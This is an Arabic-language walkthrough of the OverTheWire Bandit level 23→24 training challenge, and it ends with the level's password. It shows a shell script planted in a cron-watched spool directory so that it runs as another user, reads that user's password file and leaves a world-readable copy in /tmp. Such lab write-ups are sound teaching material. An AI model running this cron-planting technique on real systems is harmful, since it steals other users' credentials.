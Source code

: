 # حل Bandit Level 23 → 24

**التاريخ:** 2025-10-1

---

## الوصف
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

---

## الأدوات المستخدمة
- `cat`
- `chmod`
- `cp`
- `chown`
- `touch`

---

## خطوات الحل (خطوة بخطوة) وشرح كل سطر
1. **إنشاء سكربت `getpass.sh`**
```bash
cat > getpass.sh << 'EOF'
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/bandit24_password
chmod 666 /tmp/bandit24_password
EOF
```
- السطر `#!/bin/bash` يحدد أن السكربت سيتم تشغيله بواسطة `bash`.
- الأمر `cat /etc/bandit_pass/bandit24 > /tmp/bandit24_password` يقوّم بنسخ محتوى ملف كلمة المرور الخاص بـ `bandit24` إلى ملف مؤقت `/tmp/bandit24_password`.
- `chmod 666 /tmp/bandit24_password` يغيّر أذونات الملف لتصبح `rw-rw-rw-` (أي يقدر أي مستخدم قراءة وكتابة الملف).

2. **جعل السكربت قابلًا للتنفيذ**
```bash
chmod +x getpass.sh
```
- هذا يجعل `getpass.sh` قابلاً للتشغيل.

3. **نسخ السكربت إلى مجلد المستخدم `bandit24` المؤقت**
```bash
cp getpass.sh /var/spool/bandit24/foo/
```

4. **تغيير مالك السكربت ليصبح `bandit23`**
```bash
chown bandit23:bandit23 /var/spool/bandit24/foo/getpass.sh
```


5. **قراءة الملف المؤقت للحصول على كلمة المرور**
```bash
cat /tmp/bandit24_password
```
- لأن السكربت (الذي يُشغّل لاحقًا باسم `bandit24`) سيكتب كلمة المرور في هذا الملف ثم يغيّر أذوناته إلى `666`، أي مستخدم آخر يستطيع قراءته باستخدام `cat`.

---

## لماذا تعمل هذه الطريقة؟ (شرح موجز)
- فكرة التحدّي: وجود خدمة أو مجدول (مثل `cron` أو عملية تراقب `foo`) يقوم بتشغيل سكربت باسم `bandit24`، والسكربت ينسخ كلمة المرور إلى ملف في `/tmp` ويجعل أذوناته واسعة (`666`) بحيث يستطيع أي مستخدم آخر قراءته.
- بما إن السكربت يوضع في موقع يمكن للمجدول تشغيله باسم `bandit24`، نحتاج فقط لوضع السكربت الصحيح (أو نسخه) هناك مع الأذونات والملكية المناسبة، ثم الانتظار أو الاعتماد على تشغيل الخدمة ليؤدي لكتابة الملف المؤقت.

---


## كلمة السر (النتيجة)
```
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

---

### ملاحظة أخيرة
لا تنسى الصلاة على النبي محمد (صلى الله عليه وسلم).

---

